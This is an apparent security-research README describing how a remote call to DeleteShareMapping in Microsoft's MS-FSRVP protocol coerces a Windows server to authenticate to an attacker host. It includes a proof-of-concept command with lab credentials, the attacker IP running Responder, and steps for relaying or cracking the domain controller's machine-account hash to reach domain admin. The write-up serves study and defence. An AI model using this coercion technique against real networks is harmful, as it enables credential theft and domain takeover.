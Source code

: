 # MS-FSRVP - Remote call to DeleteShareMapping (opnum 11)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\\pipe\FssagentRpc`

 - **Function name**: [`DeleteShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/1884e614-bdff-4e7f-a5d0-c27048a3f733)

 - **Function operation number**: `11`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`DeleteShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/1884e614-bdff-4e7f-a5d0-c27048a3f733) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
DeleteShareMapping('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD DeleteShareMapping(
         [in] handle_t hBinding,
         [in] GUID ShadowCopySetId,
         [in] GUID ShadowCopyId,
         [in] [string] LPWSTR ShareName);
```

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

 - Documentation of function `DeleteShareMapping`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/1884e614-bdff-4e7f-a5d0-c27048a3f733